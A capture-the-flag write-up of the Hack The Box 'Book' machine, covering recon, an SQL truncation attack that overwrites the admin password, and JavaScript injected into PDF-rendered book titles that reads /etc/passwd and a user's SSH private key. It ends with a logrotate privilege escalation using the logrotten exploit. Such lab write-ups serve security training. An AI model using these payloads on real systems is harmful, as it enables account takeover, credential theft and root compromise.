





# Book
## User
Nmap scan:
```
Nmap scan report for 10.10.10.176
Host is up (0.033s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
```
The nmap scan didn't find any other interesting ports so I first looked at the website. 
It has a login panel but you can also create an account, so I did that and logged in.


There I found a List of books that didn't seem to interesting and a contact form to send the admin a message.
This also showed the Admins email, which I need if I want to log in as an admin.



At `http://10.10.10.176/collections.php` it's also possible to upload a Book (as a pdf), but I couldn't do anything with it yet.
So I decided to run `dirb` against the website and I found an admin login panel, but I could not log in there.
```
$ dirb http://10.10.10.176
---- Scanning URL: http://10.10.10.176/ ----
==> DIRECTORY: http://10.10.10.176/admin/ 
```



After trying all sorts of SQL-Injections I did some more research and found an article on [SQL Truncation Attacks](https://resources.infosecinstitute.com/sql-truncation-attack/) and decided to try that.
First I checked if the emails used to login also get truncated, so I created an account with a very long email.


 
When I tried to login I got an error which it got truncated. I just have to find out by how much.
But because you have to enter a valid email to sign in I had to manually edit the POST request and after a few tries successfully logged in.
```
Request Data:
email=aaaaaaaaaaaaaaaaaaaa&password=a
```
Since it truncates after 20 characters I just had to add a few more to override the admin password:
```
Request Data:
name=Admin&email=admin@book.htb      test&password=admin
```
With this I was then able to log in on the admin login page. 
This unlocks a page where you can download a PDF with all the books in the library which also contains the books uploaded by users.


Since the PDF's are dynamically generated with input I can control, I can use that to my advantage.
[This article](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) helped me a lot with it. 
When uploading a PDF I entered some HTML into the `Book Title` field to check if it worked.

``


PDF:


And it worked, so I tried reading a file, which also worked.
```
<script>
  x=new XMLHttpRequest;
  x.onload=function(){
    document.write(this.responseText)
  };
  x.open("GET","file:///etc/passwd");
  x.send();
</script> 
```




Then I checked if the `.ssh/authorized_keys` file exists, as that might allow me to steal a SSH-Key.
```
<script>
  x=new XMLHttpRequest;
  x.onload=function(){
    document.write(this.responseText)
  };
  x.open("GET","file:///home/reader/.ssh/authorized_keys");
  x.send();
</script>
```




This also worked but the text was cut off, so I decreased the font size and stole the SSH-Key.
```
<script>
  x=new XMLHttpRequest;
  x.onload=function(){
    document.write('<p style="font-size: 2px">' + this.responseText + '</p>')
  };
  x.open("GET","file:///home/reader/.ssh/id_rsa");
  x.send();
</script>
```


With that I was able to connect via SSH and get the user flag.
```
$ chmod 600 id_rsa
$ ssh reader@book.htb -i id_rsa

$ whoami
reader
```
## Root

After a bit of enumeration I found a suspicous service with [pspy](https://github.com/DominicBreuker/pspy) that gets executed regularly.
```
CMD: UID=0    PID=6108   | /usr/sbin/logrotate -f /root/log.cfg 
CMD: UID=0    PID=6107   | /bin/sh /root/log.sh
```
I checked if there were any known vulnerabilities and found [one that allowed for privilage escalation](https://github.com/whotwagner/logrotten/blob/master/logrotten.c)so I checked the 3 conditions.

`Logrotate needs to be executed as root`: 

Is fullfiled as I saw in pspy.

`The logpath needs to be in control of the attacker`: 

There is a `backups` folder that logrotate uses. 
As it is in `/home/reader/` I have full control over it.

`Any option(create,compress,copy,etc..) that creates a new file is set in the logrotate configuration.`: 

I can't read the configuration file as it is at `/root/log.cfg` but when I write anything into `/home/reader/backups/access.log` a new file is created. 
This means the option must be set in the config file.

Now that I know the conditions are fulfilled I can try to exploit it.
First I created a `logrotten.c` file with the code from the exploit.

Then I compiled it with gcc: `$ gcc -o logrotten logrotten.c` and created a payload `$ echo "cat /root/root.txt > /tmp/root" > payload`.

Finding the right payload and the right arguments for `logrotten` wasn't easy, but after a lot of experimenting and a machine reset I was able to get it to work. Now I just had to execute it and add something to the log in another terminal.
```
$ ./logrotten /home/reader/backups/access.log -p payload
Waiting for rotating /home/reader/backups/access.log...

$ echo a > access.log  // In other terminal

Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
```
After a few seconds the file appeared in the `/tmp` folder and I could read out the flag.


